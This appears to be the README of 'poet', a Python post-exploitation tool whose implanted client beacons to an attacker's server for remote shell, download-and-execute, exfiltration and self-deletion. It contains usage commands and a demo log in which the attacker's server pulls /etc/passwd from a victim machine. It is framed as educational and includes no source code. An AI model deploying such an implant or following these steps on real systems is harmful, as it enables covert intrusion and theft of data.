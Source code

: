 # poet

A simple POst-Exploitation Tool.

## overview

The client program runs on the target machine and is configured with an IP
address (the server) to connect to and a frequency to connect at. If the server
isn't running when the client tries to connect, the client quietly sleeps and
tries again at the next interval. If the server is running however, the
attacker gets a control shell to control the client and perform various actions
on the target including:

- reconnaissance
- remote shell
- file exfiltration
- download and execute
- self destruct

## usage

Poet is super easy to use, and requires nothing more than the Python (2.7)
standard library. To easily try it out, a typical invocation would look like:

Terminal 1:

```
$ ./client.py -v 127.0.0.1 1
```

Terminal 2:

```
$ sudo ./server.py
```

Note: By default, the server needs to be run as root (using `sudo`) because the default
port it binds to is 443. If that makes you uncomfortable, simply use the
`-p <PORT>` flag on both the client and server and pick a nice, high number
for your port (> 1024).

Of course, using the `-h` flag gives you the full usage.

```
$ ./client.py -h
usage: client.py [-h] [-p PORT] [-v] [-d] IP INTERVAL

positional arguments:
  IP                    server
  INTERVAL              (s)

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT
  -v, --verbose
  -d, --delete          delete client upon execution

$ ./server.py -h
usage: server.py [-h] [-p PORT]

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT
```

## demo

This is just a small sample of what poet can do.

The scenario is, an attacker has gotten access to the victim's machine and
downloaded and executed the client (in verbose mode ;).  He/she does not have
the server running at this point, but it's ok, the client waits patiently.
Eventually the attacker is ready and starts the server, first starting a shell
and executing `uname -a`, then exfiltrating `/etc/passwd`. Then he/she exits
and detaches from the client, which continues running on the target waiting for
the next opportunity to connect to the server.

Victim's Machine (5.4.3.2):

```
$ ./client.py -v 1.2.3.4 10
[+] Poet started with delay of 10 seconds to port 443. Ctrl-c to exit.
[!] (2014-09-06 02:07:03.058921) Server is inactive
[!] (2014-09-06 02:07:13.060840) Server is inactive
[!] (2014-09-06 02:07:23.062512) Server is inactive
[!] (2014-09-06 02:07:33.064214) Server is inactive
[+] (2014-09-06 02:07:43.066828) Server is active
[!] (2014-09-06 02:08:50.403668) Server is inactive
[!] (2014-09-06 02:09:00.405364) Server is inactive
```

Attacker's Machine (1.2.3.4):

```
# ./server.py
[+] Poet server started on 443.
[i] (2014-09-06 02:07:43.066092) Connected By: ('5.4.3.2', 62209)
[+] (2014-09-06 02:07:43.066531) Entering control shell
Welcome to psh, the poet shell!
Running `help' will give you a list of supported commands.
psh > shell
psh > user@server $ uname -a
Linux lolServer 3.8.0-29-generic #42~precise1-Ubuntu SMP Wed May 07 16:19:23 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
psh > user@server $ ^D
psh > exfil /etc/passwd
psh : exfil written to archive/20140906/exfil/passwd
psh > help
Commands:
  chint
  dlexec
  exec
  exfil
  exit
  help
  recon
  selfdestruct
  shell
psh > exit
[+] (2014-09-06 02:08:40.401181) Exiting control shell.
[-] (2014-09-06 02:08:40.401328) Poet terminated.
```

## disclaimer

I am building Poet purely for my own education and learning experience.
The code is freely available because I think it might be useful to others
interested in learning about this sort of thing. Use it responsibly.
